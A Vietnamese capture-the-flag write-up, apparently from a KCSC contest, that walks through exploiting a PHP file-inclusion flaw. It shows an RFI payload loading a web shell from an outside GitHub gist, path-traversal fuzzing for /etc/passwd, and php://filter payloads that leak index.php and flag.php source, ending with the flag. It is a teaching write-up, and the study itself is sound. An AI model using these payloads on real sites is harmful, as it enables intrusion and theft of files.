 # Mỳ Tôm Thanh Long 
Giao diện trang web như sau: 
![Alt text](image.png)
>Đi dạo một vòng website thì mình thấy nó hoạt động dựa vào trang chủ rồi import các page , có tên được truyền từ URL => 
![Alt text](image-1.png)
Mình nghĩ ngay đến LFI VÀ RFI 
đầu tiên mình phải comfirm nó bị **Path Traversal** => tiến hành fuzzing để đọc  file ** /etc/passwd ** 

thử payload  : 
```
?page=../..pages/home.php
```
nó log ra lỗi => là nó dùng hàm include , mà hàm này nếu cofig *allow_url_include* bật thì mình có thể rce ( mình đoán src code của file flag.php chứa flag , chứ đâu web đâu ai đặt tên category là flag đúng không :>)
fuzz thử 1 web shell php lên xem thử : 
payload : 
```
page=https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```
nó trả về  : 
![Alt text](image-9.png)
vậy là tham số này nó đã off -> không rce được , chúng ta cùng nghĩ cách khác 

Bắt đầu ném vào intruder trong Burp để fuzz đọc file /etc/passwd
payload position chính là value của parameter page 
![Alt text](image-3.png)
word list thì mình lấy của burp luôn -> nhớ đổi {FILE} thành /etc/passwd bằng chắc năng *match/replace* trong payload processing 
kết quả :
![Alt text](image-4.png)
bước đầu mình đã comfirm được nó bị path travesal 
Không RFI được thì mình test LFI -> mình nghĩ đến PHP wrapper để đọc file 
payload : 
```
php://filter/convert.base64-encode/resource=index.php
```
output : 
![Alt text](image-5.png)
decode đoạn base64 đó ta được  src của index.php 
![Alt text](image-6.png)
giờ ta thử đọc flag.php xem có đúng mình đoán không : >  flag.php thì nằm trong folder pages nên payload là :
```
php://filter/convert.base64-encode/resource=pages/flag.php
```
output:
![Alt text](image-7.png)
send nó qua Decoder 
và đã có flag 
![Alt text](image-8.png)
# FLAG 
**  KCSC{Lan_Dau_Tien_Trai_Thanh_Long_Co_Trong_KCSC:))} **
